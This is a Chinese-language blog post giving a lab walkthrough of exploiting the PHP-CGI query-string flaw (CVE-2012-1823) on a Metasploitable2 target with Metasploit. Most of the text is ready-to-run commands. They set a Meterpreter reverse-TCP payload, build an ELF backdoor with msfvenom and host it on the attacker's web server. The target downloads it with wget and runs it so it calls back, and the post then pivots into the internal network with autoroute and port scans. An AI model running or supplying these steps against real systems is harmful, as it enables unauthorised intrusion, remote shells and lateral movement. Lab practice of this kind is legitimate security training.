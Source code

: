 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit攻击PHP-CGI查询字符串参数漏洞并渗透内网
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit攻击PHP-CGI查询字符串参数漏洞并渗透内网
lock: need
---
```


# Metasploit攻击PHP-CGI查询字符串参数漏洞并渗透内网

攻击机：Kali 192.168.109.137

靶机： Metasploitable2 192.168.109.159

内网另一台主机 Windows Server 2012

工具：Metasploit

目标计算机上的漏洞编号为CVE id 2012-1823，完整的名称为PHP-CGI查询字符串参数漏洞，根据PHP主页的信息，当PHP使用基于CGI的设置(如Apache的mod_cgid)时，php-cgi就会收到一个查询字符串参数作为命令行参数(这个命令行参数可以是-s、-d或者-c),它将被传递到php-cgi程序，从而导致源代码泄露和任意代码执行。因此，一个远程的、未经授权的攻击者可以借此获取敏感信息，利用目标计算机来进行Dos攻击，或者取得Web服务器执行任意代码的权限。

## 开启MSF

```
msfconsole
```

## 查找MSF中与CVE id 2012-1823漏洞匹配的模块

```
search "php 5.2.4"
```

## 对漏洞进行渗透

```
use exploit/multi/http/php_cgi_arg_injection
show options
set RHOST 192.168.109.159
show options
show payloads
set payload php/meterpreter/reverse_tcp
show options
set LHOST 192.168.109.137
exploit
```

现在，我们攻克了IP地址为192.168.109.159的内部系统了，现在我们需要将Meterpreter提升为更高的权限

## 生成木马文件

在攻击机Kali上新开一个命令行终端，执行如下命令：

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.109.137 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第3步的终端，执行命令：

```
shell
wget http://192.168.109.137/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第3步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

**下面，我们渗透内部网络。**

## 查看ARP内容

```
arp
```

由输出可以看出，内网中有另一主机IP地址为：192.168.109.141

为了渗透进入这个内部网络，需要在成功渗透的主机上使用autoroute命令来设置跳板。

## 设置跳板

在Meterpreter终端执行：

```
run autoroute -p
run autoroute -s 192.168.109.0 255.255.255.0
run autoroute -p
```

此时，我们的MSF就可以通过这个Meterpreter会话连接到内部网络。

## 将Meterpreter会话切换到后台

```
background
```

## 内网主机192.168.109.141进行端口扫描

```
use auxiliary/scanner/portscan/tcp
show options
setg RHOSTS 192.168.109.141
run
```

注意：设置RHOSTS的值时，这里使用的是setg命令，这样就会使RHOSTS的值设置为全局的192.168.109.141，从而无需反复输入这个命令。

这里，我们仅仅看到少数几个开发的端口，接下来，我们使用MSF中对应工具对常见的端口再进行详细的扫描。使用auxiliary/scanner/http/http_header模块对目标80和8080端口进行扫描，以发现在这两个端口上运行的服务。

## 查看在80、8080端口上运行的服务

```
use auxiliary/scanner/http/http_header
set RHOSTS 192.168.109.141
set HTTP_METHOD GET
run
set RPORT 8080
run
```

从输出中可以看到，目标计算机80端口上运行着最新的IIS 8.5, 这是一个很难渗透的服务器，因为并没有在这个服务器上发现高危的漏洞。不过，在8080端口上运行着HFS 2.3，这个软件存在着一个远程代码执行漏洞。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)